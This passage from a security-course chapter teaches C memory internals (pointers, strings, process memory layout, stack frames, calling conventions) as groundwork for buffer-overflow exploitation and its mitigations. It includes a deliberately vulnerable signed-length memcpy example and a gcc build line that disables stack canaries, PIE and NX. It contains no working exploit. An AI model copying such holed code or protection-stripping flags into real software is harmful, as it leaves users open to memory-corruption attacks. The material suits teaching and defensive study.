






This is Chapter 5 of the Programming for Security series — Notebook 5. The four previous
chapters gave you Python and Bash: high-level languages where memory is invisible, strings just
work, and a variable is a name you never have to think about the *address* of. This chapter goes
underneath all of that. It teaches you **C** — not because you'll write a lot of production C,
but because C is the closest thing to "portable assembly" that exists, and because almost every
binary you will ever reverse-engineer, fuzz, or exploit was written in C or C++ and compiled down
to the exact memory layout this chapter explains.

If you want to understand a stack buffer overflow, a use-after-free, a format-string bug, or why
`strcpy` is a loaded gun, you have to be able to see memory the way the CPU sees it: a flat array
of bytes, with pointers as indices into that array, a stack that grows downward, and a return
address sitting on that stack waiting to be overwritten. Python hides every one of those things.
C shows you all of them. That visibility is the entire reason this chapter exists.

We start from absolute zero: what a compiler actually does, how to build and run a C program on
Kali, what a "type" means when the machine only knows bytes. Then pointers — slowly, with
diagrams, until they click. Then arrays and strings as the raw memory they really are. Then the
big picture: the virtual address space of a running process, section by section. Then the star of
the show, the **stack**: how a function call is implemented, what a stack frame contains, where
the saved return address lives, and — in a fully worked GDB lab — what it looks like when you
overflow a buffer and smash that return address. We close on the defensive side: the mitigations
(ASLR, stack canaries, NX/DEP, PIE) that stand between a textbook overflow and a working exploit
on a modern system, and how a defender reasons about them.

Everything here is **lab-scoped and lawful**. You compile and break programs that you wrote, on a
machine you own. The overflow lab deliberately disables modern protections so the core mechanism
is visible; that is a teaching device, not how you'd attack a hardened target. Understanding the
mechanism is exactly what lets you both *find* these bugs (as a researcher or bounty hunter) and
*defend* against them (as a blue-teamer choosing compiler flags). That dual purpose is the point.

## Why This Matters Before You Write a Line of C

Every serious offensive-security discipline eventually bottoms out in the memory model this
chapter teaches:

- **Binary exploitation / pwn (CTF and real research):** stack overflows, ROP chains, heap
  exploitation, format strings — all of it is manipulation of the exact structures below.
- **Reverse engineering & malware analysis:** Ghidra and IDA decompile machine code *back* into
  C-like pseudocode. If you can't read C and don't know what a pointer or a stack frame is, the
  decompiler output is noise.
- **Fuzzing & vulnerability research:** you fuzz C/C++ binaries precisely because they have no
  memory safety. Triage means reading a crash in a debugger and understanding *which* memory
  structure got corrupted.
- **Exploit mitigation & defensive engineering (blue team):** choosing `-fstack-protector-strong`,
  enabling full RELRO, shipping PIE binaries, turning on ASLR — you can't reason about these
  without knowing what they protect.
- **Bug bounty (native targets):** desktop apps, mobile native libraries, IoT firmware, and
  browser components are C/C++. Memory-corruption bounties pay the most precisely because they're
  the hardest and rest on this foundation.

Python taught you to *build tools*. C teaches you to *understand targets*. This is the chapter
where "the program crashed" turns into "the program crashed because a 72-byte write into a
64-byte buffer overwrote the saved return address at `rbp+8` with `0x4141414141414141`."

## Part 1: What C Is and Why It Still Runs the World

C was created by Dennis Ritchie at Bell Labs in 1972 to write the Unix operating system. That
origin explains almost everything about it. An operating system has to talk directly to hardware:
read and write specific memory addresses, manipulate individual bytes and bits, and impose *zero*
runtime overhead. So C was designed to be a thin, predictable layer over the machine — high-level
enough to be portable across CPUs, low-level enough that you can always see roughly what assembly
a line will become.

The consequences that matter for security:

- **No memory safety.** C will happily let you write past the end of an array, use memory after
  freeing it, or read uninitialized bytes. The language does not check. The CPU does not check.
  This is the *source* of the entire category of "memory-corruption vulnerabilities."
- **Manual memory management.** You call `malloc` to get heap memory and `free` to release it.
  Forget to free → memory leak. Free twice → double-free. Use after free → use-after-free (UAF).
  These are three distinct, exploitable bug classes that simply cannot exist in Python.
- **Pointers are first-class.** A pointer is just a variable holding a memory address. You can do
  arithmetic on it, cast it to a different type, and dereference it. This power is why C is fast
  and why C is dangerous.
- **Compiled, not interpreted.** C source becomes native machine code for one specific
  architecture (x86-64, ARM64, etc.). There is no interpreter standing between your code and the
  CPU. What you get is exactly what runs.

Roughly all of the following are written in C or C++: the Linux kernel, the Windows kernel, glibc,
OpenSSL, SQLite, nginx, Redis, the reference Python interpreter (CPython) itself, most of Chrome
and Firefox, and the firmware in your router. When you exploit or defend any of these, you are
operating in the world this chapter describes.

**Security relevance up front:** the reason a Python string can't cause a buffer overflow and a C
`char[64]` can is everything below. Python's `str`/`bytes` know their own length and bounds-check
every access; a C array is just a bare address and a length *you* are trusted to respect. Break
that trust and you corrupt adjacent memory.

## Part 2: The Compilation Pipeline — What "Compiling" Actually Does

In Python you run `python3 script.py` and it works. In C there is a multi-stage build between your
`.c` file and an executable. You must understand these stages because reverse engineering and
exploitation happen at the *output* end of this pipeline — the machine code — and because build
flags chosen here decide whether a binary is exploitable.



The four stages, in order:

1. **Preprocessing (`cpp`).** Handles every line starting with `#`. `#include <stdio.h>` is
   *literally* replaced by the entire contents of that header file. `#define MAX 64` textually
   substitutes `64` for `MAX` everywhere. The output is still C, just expanded. See it with
   `gcc -E`.
2. **Compilation (`cc1`).** Translates the expanded C into **assembly language** for your target
   CPU. This is where optimization happens (`-O0` through `-O3`). See it with `gcc -S` — the
   output `.s` file is human-readable assembly and is worth staring at once in your life.
3. **Assembly (`as`).** Turns the textual assembly into **machine code** packed into an *object
   file* (`.o`). This is real binary now, but not yet runnable — external references (like `printf`)
   are still unresolved placeholders. See it with `gcc -c`.
4. **Linking (`ld`).** Stitches your object file(s) together with the C standard library and
   resolves those external references, producing the final executable. Linking can be **dynamic**
   (the default — `printf` is resolved at runtime from `libc.so`) or **static** (`-static` — a copy
   of libc is baked into the binary).

You almost always invoke the whole pipeline at once with `gcc`. But each stage is inspectable, and
security people inspect them constantly.

### Installing the toolchain on Kali

```bash
# gcc is usually present on Kali; install the full build toolchain to be sure
sudo apt update
sudo apt install -y build-essential gdb

# verify
gcc --version        # e.g. gcc (Debian 13.2.0) 13.2.0
gdb --version        # e.g. GNU gdb (Debian 13.2) 13.2
```

- `build-essential` — a meta-package pulling in `gcc`, `g++`, `make`, and the libc headers.
- `gdb` — the GNU Debugger, the single most important tool in this chapter. We install it now and
  teach it from scratch in Part 10.

### Your first C program, built stage by stage

Create `hello.c`:

```c
#include <stdio.h>          // brings in the declaration of printf

int main(void) {            // program entry point; returns an int exit code
    printf("Hello, memory\n");
    return 0;               // 0 = success, by Unix convention
}
```

Now watch each pipeline stage produce a real artifact:

```bash
gcc -E hello.c -o hello.i     # 1. preprocess only -> ~800 lines (all of stdio.h inlined!)
gcc -S hello.c -o hello.s     # 2. compile to assembly -> readable x86-64
gcc -c hello.c -o hello.o     # 3. assemble to object file (binary, not runnable)
gcc hello.c -o hello          # 4. do everything: final executable
./hello                       # Hello, memory
echo $?                       # 0   <- the exit code we returned
```

**Flags you'll use in every build in this chapter:**

| Flag | Meaning | Why it matters here |
|------|---------|---------------------|
| `-o NAME` | name the output file | otherwise you get `a.out` |
| `-g` | embed debug symbols (DWARF) | lets GDB show source lines & variable names |
| `-O0` | no optimization | keeps the assembly close to your source — essential for learning |
| `-O2` | aggressive optimization | what production builds use; reorders/removes code |
| `-Wall -Wextra` | enable warnings | catches many bugs at compile time |
| `-fno-stack-protector` | disable stack canary | needed to see a *clean* overflow in the lab |
| `-z execstack` | mark stack executable | classic shellcode-on-stack technique (lab only) |
| `-no-pie` | disable position-independent exe | gives fixed addresses, simpler to reason about |
| `-static` | bake libc into the binary | self-contained; larger; changes exploitation |
| `-m32` | build 32-bit | 32-bit stack layout is simpler for a first overflow |

A learning/exploitation build in this chapter typically looks like:

```bash
gcc -g -O0 -fno-stack-protector -no-pie -z execstack vuln.c -o vuln
```

Every one of those flags *weakens* the binary on purpose so the underlying mechanism is visible.
On a real defensive build you'd want the opposite of most of them — which is exactly the
Detection & Defense discussion in Part 12.

## Part 3: Types Are Really Just "How Many Bytes and How to Read Them"

In Python, an `int` is an arbitrary-precision object; it grows as large as you like and you never
think about its size. In C, a type is a contract with the machine that says exactly two things:
**how many bytes this value occupies**, and **how those bytes should be interpreted**. That's it.
A type is a lens over raw memory.

Here are the core scalar types on a typical 64-bit Linux (the "LP64" model). Sizes are *not*
guaranteed by the C standard — only minimums are — which is itself a source of portability bugs
and, occasionally, vulnerabilities. Always confirm with `sizeof`.

| Type | Typical size (x86-64 Linux) | Range (unsigned) | Notes |
|------|------------------------------|------------------|-------|
| `char` | 1 byte | 0–255 | also the unit of a C string; may be signed or unsigned |
| `short` | 2 bytes | 0–65,535 | |
| `int` | 4 bytes | 0–4,294,967,295 | the default integer |
| `long` | 8 bytes | 0–~1.8e19 | 8 on Linux, **4 on 64-bit Windows** |
| `long long` | 8 bytes | 0–~1.8e19 | guaranteed ≥ 64-bit |
| `float` | 4 bytes | — | IEEE-754 single precision |
| `double` | 8 bytes | — | IEEE-754 double precision |
| `void *` (pointer) | 8 bytes | — | holds a 64-bit address |
| `size_t` | 8 bytes | unsigned | type of `sizeof`; used for lengths/indices |

Prove it to yourself:

```c
#include <stdio.h>
int main(void) {
    printf("char       %zu\n", sizeof(char));       // 1
    printf("short      %zu\n", sizeof(short));      // 2
    printf("int        %zu\n", sizeof(int));        // 4
    printf("long       %zu\n", sizeof(long));       // 8
    printf("long long  %zu\n", sizeof(long long));  // 8
    printf("float      %zu\n", sizeof(float));      // 4
    printf("double     %zu\n", sizeof(double));     // 8
    printf("void*      %zu\n", sizeof(void*));      // 8
    return 0;
}
```

`%zu` is the `printf` format specifier for a `size_t`. Using the wrong specifier (`%d` for a
`size_t`, say) is itself undefined behavior and the seed of format-string bugs we'll meet later.

### Signed vs unsigned — where integer bugs are born

A `char` holding the bit pattern `1111 1111` is **255** if unsigned and **−1** if signed
(two's-complement). The bytes are identical; only the *type* decides the meaning. This ambiguity
is a rich source of vulnerabilities:

```c
#include <stdio.h>
#include <string.h>

void copy_n(char *dst, char *src, int n) {
    if (n > 64) return;          // "bounds check"
    memcpy(dst, src, n);         // but n is signed...
}
```

If an attacker controls `n` and passes `-1`, the check `n > 64` is false (−1 is not > 64), so the
copy proceeds — but `memcpy`'s third argument is a `size_t` (unsigned), so `-1` becomes
**18,446,744,073,709,551,615**. `memcpy` tries to copy ~18 exabytes and instantly corrupts memory.
This is an **integer signedness / integer-overflow vulnerability**, and CVEs of exactly this shape
appear every year in real software. The fix is to type `n` as `size_t` and check both ends.

### Endianness — the byte order that trips up every beginner

A multi-byte integer has to be laid out in memory as individual bytes, and x86-64 stores them
**little-endian**: the *least*-significant byte first (lowest address). The 4-byte value
`0x11223344` is stored as the bytes `44 33 22 11`.



**Exploitation relevance:** when you overwrite a return address with a target like
`0x00000000004011d6`, you must write the bytes in little-endian order:
`\xd6\x11\x40\x00\x00\x00\x00\x00`. Every pwn tool (pwntools' `p64()`, for example) exists partly
to handle this byte-ordering for you. Getting endianness wrong is the single most common reason a
beginner's first overflow "doesn't work."

## Part 4: Pointers — The Concept Everything Else Rests On

A pointer is the idea that scares people off C, and it is genuinely the most important concept in
this chapter. So we go slowly. Here is the whole thing in one sentence: **a pointer is a variable
whose value is a memory address.** Nothing more.

Think of RAM as a giant array of bytes, each with a numbered slot (its *address*). A normal
variable stores *data*. A pointer variable stores *the address of* some data — it "points at" it.



The two operators that are the whole game:

- `&x` — **address-of**: "give me the address where `x` lives."
- `*p` — **dereference**: "give me the value stored at the address `p` holds."

They are inverses: `*(&x)` is just `x`.

```c
#include <stdio.h>
int main(void) {
    int x = 42;
    int *p = &x;          // p holds the ADDRESS of x. "int *" = "pointer to int"

    printf("x        = %d\n",  x);      // 42        (the value)
    printf("&x       = %p\n",  (void*)&x); // 0x7ffe...  (where x lives)
    printf("p        = %p\n",  (void*)p);  // same address as &x
    printf("*p       = %d\n",  *p);     // 42        (follow the pointer -> the value)

    *p = 99;              // write THROUGH the pointer into x's memory
    printf("x now    = %d\n",  x);      // 99  <- we changed x without naming x!
    return 0;
}
```

That last part — changing `x` by writing through `p` without ever mentioning `x` — is the essence
of both pointers' power and their danger. If a pointer holds an address it shouldn't (because you
computed it wrong, or an attacker controlled it), `*p = 99` writes 99 *wherever that address
points*. An attacker-controlled pointer plus an attacker-controlled value is a **write-what-where**
primitive — the crown jewel of exploitation.

### Pointer arithmetic — scaled by the pointed-to type

Adding 1 to a pointer does **not** add 1 byte; it adds `sizeof(*p)` bytes — enough to advance to
the *next element of that type*. This is what makes arrays and pointers so intertwined.

```c
#include <stdio.h>
int main(void) {
    int a[4] = {10, 20, 30, 40};
    int *p = a;                 // an array name decays to a pointer to its first element

    printf("%d\n", *p);         // 10
    printf("%d\n", *(p + 1));   // 20  -> address advanced by sizeof(int)=4 bytes
    printf("%d\n", *(p + 3));   // 40
    printf("p=%p (p+1)=%p\n", (void*)p, (void*)(p+1)); // differ by 4, not 1
    return 0;
}
```

`a[i]` is *defined* as `*(a + i)`. That equivalence is why array indexing has no built-in bounds
check — it's just pointer arithmetic plus a dereference, and pointer arithmetic will cheerfully
compute an address past the end of the array.

### The pointer footguns you must recognize

| Bug | What it is | Consequence |
|-----|-----------|-------------|
| **NULL dereference** | `int *p = NULL; *p;` | crash (SIGSEGV); usually a DoS, sometimes exploitable |
| **Wild/uninitialized pointer** | using `int *p;` before setting it | reads/writes a garbage address |
| **Dangling pointer** | using a pointer after `free()` | **use-after-free** — highly exploitable |
| **Out-of-bounds pointer** | `p = a + 100;` then `*p` | reads/writes adjacent memory — the overflow family |
| **Type-confused pointer** | casting `char*` to `int*` wrongly | misreads memory; alignment faults |

Every one of these is a *bug class* with its own exploitation techniques and its own detection
tooling (AddressSanitizer, Valgrind — Part 12). You cannot understand any of them without first
understanding that a pointer is just an address you are trusted to use correctly.

## Part 5: Arrays, Strings & Buffers — Raw Memory Wearing a Costume

A C array is a **contiguous block of bytes** sized `count * sizeof(element)`, and the array's name
is (nearly) synonymous with the address of its first byte. There is no length stored anywhere. The
program simply has to *remember* how big it is. When it forgets — or is tricked — you get an
overflow.

A C **string** is even more bare: it's just a `char` array terminated by a zero byte (`'\0'`,
value 0). The string `"Hi"` occupies **3** bytes: `'H'`, `'i'`, `'\0'`. Every C string function
finds the end by scanning for that terminator. Lose the terminator and functions read off into
adjacent memory until they hit a stray zero — an information leak.

```c
#include <stdio.h>
#include <string.h>
int main(void) {
    char buf[8] = "Hi";       // bytes: 'H' 'i' 0 0 0 0 0 0
    printf("len = %zu\n", strlen(buf));   // 2  (counts until the 0)
    printf("size= %zu\n", sizeof(buf));   // 8  (the whole array)

    buf[2] = '!';             // clobber the terminator -> no more 0 after "Hi!"
    printf("len = %zu\n", strlen(buf));   // now scans past index 2 into whatever follows!
    return 0;
}
```

### The dangerous string functions — and why they're dangerous

This is the single most security-relevant table in the chapter. Memorize the left column as
"functions that will overflow a buffer if you let them," and the right column as their bounded
replacements.

| Unsafe function | Why it's unsafe | Safer alternative |
|-----------------|-----------------|-------------------|
| `gets(buf)` | reads a line with **no length limit** at all | `fgets(buf, sizeof buf, stdin)` |
| `strcpy(dst, src)` | copies until `src`'s `\0`, ignoring `dst`'s size | `strncpy` / `strlcpy` (+ manual `\0`) |
| `strcat(dst, src)` | appends with no size awareness | `strncat` / `strlcat` |
| `sprintf(buf, fmt, ...)` | formats into `buf` with no bound | `snprintf(buf, sizeof buf, ...)` |
| `scanf("%s", buf)` | `%s` reads an unbounded token | `scanf("%63s", buf)` (width-limited) |

`gets()` was so dangerous it was **removed from the C standard entirely** in C11 — the only
standard-library function ever to be deleted for being unfixable. It is the star of the very first
overflow lab, precisely because it embodies the whole bug class in one call.

**Security relevance:** the classic stack buffer overflow is *nothing more than* one of these
functions writing more bytes into a fixed-size stack array than the array can hold, so the excess
bytes spill onto the rest of the stack — including, eventually, the saved return address. To see
that happen we first need to understand where these buffers *live*, which is the whole next part.

**CTF/bounty angle:** on any native target — a CTF `pwn` binary, an IoT firmware daemon, a legacy
C++ desktop app in a bug-bounty scope — the first thing an analyst greps the disassembly for is
exactly this list: `strcpy`, `gets`, `sprintf`, `memcpy` with an attacker-influenced length.
They are the breadcrumbs that lead to the bug.

## Part 6: The Process Virtual Address Space — The Map of a Running Program

When you run `./vuln`, the kernel gives that process its own private, flat **virtual address
space**: a range of addresses from 0 up to a huge maximum (on x86-64, the user portion runs up to
`0x00007fffffffffff`). It's *virtual* because the CPU's MMU translates these addresses to real
physical RAM behind the scenes, and *private* because process A's address `0x400000` and process
B's `0x400000` map to different physical memory. This isolation is itself a security boundary.

That address space is carved into **segments**, each with different contents and permissions. This
map is the mental model you carry into every debugging and exploitation session:



Segment by segment, from the bottom (low addresses) up:

| Segment | Contents | Permissions | Grows | Security note |
|---------|----------|-------------|-------|---------------|
| `.text` | compiled machine code | `r-x` (read/execute, **not** writable) | fixed | non-writable so code can't be patched at runtime; `W^X` |
| `.rodata` | string literals, constants | `r--` | fixed | your `"Hello"` lives here |
| `.data` | initialized globals/statics | `rw-` | fixed | e.g. `int g = 5;` |
| `.bss` | uninitialized globals/statics | `rw-` | fixed | zero-filled at load; `int g;` |
| heap | `malloc`/`calloc`/`realloc` | `rw-` | upward ↑ | UAF/double-free/heap-overflow live here |
| mmap | shared libraries, big allocations | varies | — | libc lands here; ASLR randomizes its base |
| stack | locals, call frames, saved return addrs | `rw-` | **downward ↓** | the star of this chapter |

Two facts that constantly confuse beginners and constantly matter in exploitation:

1. **The stack grows *downward*** — toward *lower* addresses. When you push data, the stack
   pointer *decreases*. This is why a buffer overflow (which writes toward *higher* addresses,
   like all writes) marches *from* a local buffer *toward* the saved return address that was pushed
   *earlier* and therefore sits at a *higher* address than the buffer. That geometry is the whole
   reason a linear overflow can reach the return address.
2. **The heap grows *upward*** — toward higher addresses — from the opposite end, so the two
   dynamic regions grow toward each other with a large gap between them.

### Seeing the real map: `/proc/<pid>/maps`

Linux exposes every process's memory map as a text file. This is one of the most useful things you
can show a beginner, because the abstract diagram above becomes concrete addresses:

```bash
# start any program that waits, e.g. a sleep, and read its map
sleep 1000 &
cat /proc/$!/maps
```

Real (trimmed) output looks like:

```text
55e6c0e00000-55e6c0e01000 r--p 00000000 08:01 1319  /usr/bin/sleep      <- ELF header
55e6c0e01000-55e6c0e05000 r-xp 00001000 08:01 1319  /usr/bin/sleep      <- .text (r-x)
55e6c0e05000-55e6c0e07000 r--p 00005000 08:01 1319  /usr/bin/sleep      <- .rodata
55e6c0e08000-55e6c0e09000 rw-p 00007000 08:01 1319  /usr/bin/sleep      <- .data/.bss
7f9c4a000000-7f9c4a028000 r--p 00000000 08:01 2011  /usr/lib/libc.so.6  <- libc mapped here
...
7ffde3b60000-7ffde3b81000 rw-p 00000000 00:00 0     [stack]             <- the stack!
7ffde3bd0000-7ffde3bd4000 r--p 00000000 00:00 0     [vvar]
```

The four permission characters (`r`/`w`/`x`/`p`) are exactly the segment permissions from the
table. Notice `[stack]` is `rw-p` — **read/write but not execute**. That missing `x` is the
NX/DEP mitigation (Part 12) and is why "just put shellcode on the stack and jump to it" stopped
working two decades ago.

**Blue team / IR usage:** during live-response on a compromised Linux host, `/proc/<pid>/maps`
(and `/proc/<pid>/mem`) is how a responder spots an injected `rwx` region (a red flag — legitimate
code segments are `r-x`, legitimate data is `rw-`; an `rwx` mapping often means self-modifying or
injected code) or a memory-only, file-less implant that never touched disk.

## Part 7: The Stack — How It Works, Byte by Byte

The **stack** is a region of memory managed as a LIFO (last-in, first-out) structure, used to hold
everything local to a function call: its local variables, the arguments passed to it (beyond what
fit in registers), the address to return to when it finishes, and saved copies of registers. It is
called the "call stack" for a reason — every function call pushes a frame on, every return pops one
off.

Two CPU registers drive it on x86-64:

- **`rsp`** — the **stack pointer** — always points at the *top* of the stack (the lowest in-use
  address, since the stack grows down).
- **`rbp`** — the **base/frame pointer** — points at a fixed spot within the *current* function's
  frame, used as a stable reference to find locals and arguments.

Two instructions move data on and off:

- `push rax` — subtract 8 from `rsp` (stack grows down), then write `rax` at `[rsp]`.
- `pop rax` — read `[rsp]` into `rax`, then add 8 to `rsp`.

Because the stack grows *down*, "top of stack" is the *lowest* address in use, and pushing more
data moves `rsp` to ever-lower addresses. Hold onto that; it is the geometry an overflow exploits.



That ordering is the crux of the whole chapter, so read it carefully:

- The **return address** sits at a *higher* address than the local **buffer**.
- A `strcpy`/`gets` into `buffer` writes *upward* (toward higher addresses) as it copies more bytes.
- Therefore a large enough write **overflows out of the buffer, past the saved RBP, and onto the
  saved return address.** Overwrite that return address and you control where the CPU jumps when
  the function returns. That is a stack buffer overflow in one sentence.

## Part 8: What a Function Call Really Does — The Stack Frame & Calling Convention

Let's make the abstract concrete. When `main()` calls `vuln("input")`, a precise, CPU-level dance
happens, governed by the **System V AMD64 calling convention** (the standard on Linux/macOS
x86-64). Understanding this convention is what lets you read disassembly and craft exploits.

### The System V AMD64 calling convention (the rules)

- The **first six integer/pointer arguments** go in registers, in this order:
  `rdi, rsi, rdx, rcx, r8, r9`. (Further args spill onto the stack.)
- The **return value** comes back in `rax`.
- The **`call` instruction pushes the return address** (the address of the instruction right after
  the `call`) onto the stack, then jumps to the function.
- The **`ret` instruction pops** that saved address off the stack into `rip` and continues there.
- The callee typically saves the caller's `rbp` and sets up its own frame (the "function
  prologue"), and restores it on the way out (the "epilogue").

### The prologue and epilogue in assembly

Nearly every non-trivial function starts and ends with the same boilerplate. This is the code that
*creates and destroys* the stack frame:

```asm
; --- PROLOGUE (function entry) ---
push   rbp            ; save caller's frame pointer onto the stack
mov    rbp, rsp       ; establish OUR frame pointer = current stack top
sub    rsp, 0x40      ; carve out 0x40 (64) bytes for local variables

; ... function body: locals are addressed as [rbp - offset] ...

; --- EPILOGUE (function exit) ---
leave                 ; == (mov rsp, rbp ; pop rbp) : tear down frame, restore rbp
ret                   ; pop saved return address into rip -> jump back to caller
```

Trace the stack through a call, step by step. Say `main` is about to run `call vuln`:

```mermaid
sequenceDiagram
    participant CPU
    participant Stack
    CPU->>Stack: call vuln  (push return address)
    Note over Stack: [return addr] now on top
    CPU->>Stack: push rbp   (save main's frame ptr)
    Note over Stack: [saved rbp][return addr]
    CPU->>CPU: mov rbp, rsp (rbp = frame base)
    CPU->>Stack: sub rsp, 0x40 (allocate 64B for buffer)
    Note over Stack: [buffer 64B][saved rbp][return addr]
    CPU->>Stack: ... function runs, writes into buffer ...
    CPU->>Stack: leave (rsp=rbp; pop rbp)
    CPU->>Stack: ret (pop return addr into rip)
    Note over Stack: control returns to main
```

Now the payoff. The saved return address is a specific 8-byte slot on the stack, and its position
*relative to a local buffer* is fixed and knowable. If `buffer` is at `rbp-0x40`, then:

- `buffer` occupies `rbp-0x40` .. `rbp-0x01` (64 bytes)
- **saved RBP** occupies `rbp+0x00` .. `rbp+0x07` (8 bytes)
- **saved return address** occupies `rbp+0x08` .. `rbp+0x0f` (8 bytes)

So writing **64 bytes of filler + 8 bytes to overwrite saved RBP + 8 bytes of your chosen
address** places your address exactly where `ret` will read it. That "72 then 8" arithmetic is the
`offset` every stack-overflow exploit begins by finding. In the lab (Part 10) we find it
empirically with a cyclic pattern rather than by hand-counting — but this is *why* it works.

**Red team usage:** control of `rip` via a corrupted return address is the foundation for
ret2win, ret2libc, and ROP — you don't inject code, you redirect execution to code (or gadgets)
already present. **Blue team usage:** stack canaries (Part 12) work by placing a random value
*between* the buffer and the saved RBP/return address, so a linear overflow that reaches the return
address must first destroy the canary — detected on function exit, aborting before `ret`.

## Part 9: The Heap in Brief — Dynamic Memory and Its Bug Classes

The stack is for short-lived, function-scoped data whose size is known at compile time. When you
need memory that outlives a function or whose size you only learn at runtime, you use the **heap**
via `malloc`/`free`:

```c
#include <stdlib.h>
#include <string.h>
char *dup_input(const char *s) {
    size_t n = strlen(s) + 1;      // +1 for the terminator
    char *p = malloc(n);           // ask the allocator for n bytes on the heap
    if (!p) return NULL;           // ALWAYS check malloc — it can fail
    memcpy(p, s, n);               // copy the string in
    return p;                      // caller now owns this; must free() it later
}
```

- `malloc(n)` returns a pointer to at least `n` bytes, or `NULL` on failure. The memory is
  **uninitialized** (contains garbage) — `calloc` zeroes it instead.
- `free(p)` returns the block to the allocator. After `free`, `p` is a **dangling pointer**;
  using it is undefined behavior.

